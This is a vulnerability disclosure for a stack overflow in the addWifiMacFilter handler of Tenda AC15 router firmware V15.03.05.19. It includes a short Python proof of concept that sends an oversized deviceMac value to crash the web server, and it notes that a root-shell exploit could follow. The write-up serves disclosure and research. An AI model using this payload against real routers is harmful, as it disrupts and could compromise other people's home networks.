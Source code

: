 ## Tenda _US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin stack overflow vulnerability

A stack overflow vulnerability in the component /goform/addWifiMacFilter of Tenda AC15V1.0BR_V15.03.05.19 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.tenda.com
- Firmware download address ：https://www.tenda.com.cn/download/detail-2680.html

## 1. Affected version

![bin](bin.png)Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

Vulnerability occurs in /goform/addWifiMacFilter. The contents obtained by the deviceMac parameter are passed to v11, and then the contents matched by v11 and put into the nptr without size checking, resulting in a stack overflow.

![pic1](pic1.png)

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the EMUX(https://github.com/therealsaumil/emux) simulation firmware
2. Attack with the following POC attacks，then web server will crash and reboot

```python
import requests

url = 'http://IP:port/goform/addWifiMacFilter'

headers = {"Cookie": "password=inputyourcookie"}
data = {
    'deviceMac': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data)
print(r.text)
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
